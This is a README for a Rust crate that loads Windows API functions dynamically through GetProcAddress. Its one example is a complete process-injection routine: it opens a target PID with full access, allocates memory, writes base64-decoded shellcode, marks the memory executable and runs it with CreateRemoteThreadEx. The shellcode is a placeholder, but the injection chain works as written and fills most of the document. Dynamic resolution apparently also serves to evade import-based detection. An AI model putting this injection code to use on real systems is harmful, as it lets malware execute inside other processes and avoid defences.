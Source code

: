 # dynamic-winapi

Provide raw FFI bindings to the Windows API by dynamically loading DLLs and resolving the functions with [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).

This project is not a replacement for the [winapi-rs](https://github.com/retep998/winapi-rs) crate and you will more than likely require it if you use this project.

## Example
```Rust
use dynamic_winapi::um::{
    processthreadsapi::{CreateRemoteThreadEx, OpenProcess},
    memoryapi::{VirtualAllocEx, VirtualProtectEx, WriteProcessMemory},
};
use winapi::um::winnt::{
    MEM_COMMIT, PAGE_EXECUTE_READ, PAGE_READWRITE, PROCESS_ALL_ACCESS,
};

fn main() {
    // insert target PID
    let pid = 5100;
    // insert base64 encoded shellcode
    let shellcode_b64 = "<insert-valid-base64>";
    let mut shellcode = base64::decode(shellcode_b64).unwrap();
    let shellcode_ptr: *mut c_void = shellcode.as_mut_ptr() as *mut c_void; 

    // get process handle
    let handle = unsafe {OpenProcess().unwrap()(
        PROCESS_ALL_ACCESS,
        0x01,
        pid
    )};

    // alloc payload
    let addr_shellcode = unsafe {VirtualAllocEx().unwrap()(
        handle,
        0 as _,
        shellcode.len(),
        MEM_COMMIT,
        PAGE_READWRITE
    )};
    let mut ret_len: usize = 0;
    let _ = unsafe {WriteProcessMemory().unwrap()(
        handle,
        addr_shellcode,
        shellcode_ptr,
        shellcode.len(),
        &mut ret_len
    )};

    // protect and execute
    let mut old_protect: u32 = 0;
    let _ = unsafe {VirtualProtectEx().unwrap()(
        handle,
        addr_shellcode,
        shellcode.len(),
        PAGE_EXECUTE_READ,
        &mut old_protect
    )};
    let _ = unsafe {CreateRemoteThreadEx().unwrap()(
        handle,
        0 as _,
        0,
        std::mem::transmute(addr_shellcode),
        0 as _,
        0,
        0 as _,
        0 as _
    )};
}
```

## Feedback

Feel free to file an issue or make a request for APIs [here](https://github.com/postrequest/dynamic-winapi/issues/new).

## Acknowledgments
[@retep998](https://github.com/retep998) for [winapi-rs](https://github.com/retep998/winapi-rs). This project would not have been possible without this, so if you use `dynamic-winapi` or [winapi-rs](https://github.com/retep998/winapi-rs), please consider supporting [@retep998](https://github.com/retep998) [here](https://patreon.com/retep998).  
